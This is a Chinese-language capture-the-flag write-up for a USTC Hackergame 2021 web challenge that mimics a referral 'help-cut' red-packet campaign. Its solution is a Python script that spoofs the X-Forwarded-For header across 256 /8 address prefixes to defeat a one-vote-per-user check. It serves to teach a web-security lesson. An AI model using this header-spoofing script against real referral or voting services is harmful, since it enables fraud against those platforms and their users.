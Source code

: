 ```yaml
---
title: Web - FLAG 助力大红包
description: 2021 | 中国科学技术大学第八届信息安全大赛 | Web
---
```


## 题目

“听说没？【大砍刀】平台又双叒做活动啦！参与活动就送 0.5 个 flag 呢，攒满 1 个 flag 即可免费提取！”

“还有这么好的事情？我也要参加！”

“快点吧！我已经拿到 flag 了呢！再不参加 flag 就要发完了呢。”

“那怎么才能参加呢？”

“这还不简单！点击下面的链接就行”

## 解题思路

- 类似于并夕夕的助力 23333 <br>
![大砍刀](img/flag_red_packet01.jpg)

- 主要是向助力链接发送含 IP 地址的 POST 请求
    ```bash
    curl '<invite-url>' -X POST --data-raw 'ip=xxx.xxx.xxx.xxx'
    ```

- 众所周知，同一用户不能重复助力，此处视同一 /8 地址为重复用户（还挺严格x）<br>
![失败！重复的 /8 地址](img/flag_red_packet02.jpg)

- 不能直接修改 POST 请求中的 IP 地址<br>
![失败！检测到前后端检测 IPv4 地址不匹配](img/flag_red_packet03.jpg)

- 服务端通过 HTTP 请求头中的 `X-Forwarded-For` 识别客户端的原始 IP，接下来就是伪造 IP 地址~~疯狂~~助力 🤪

    ```py
    import requests
    from time import sleep

    for i in range(256):
        ip = f'{i}.1.1.1'   # /8
        header = {
            'X-Forwarded-For': ip,
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36'
        }
        res = requests.post('<invite-url>', data=dict(ip=ip), headers=header).content.decode()
        sleep(2)
    ```

## 参考资料

- [X-Forwarded-For - Wikipedia](https://en.wikipedia.org/wiki/X-Forwarded-For)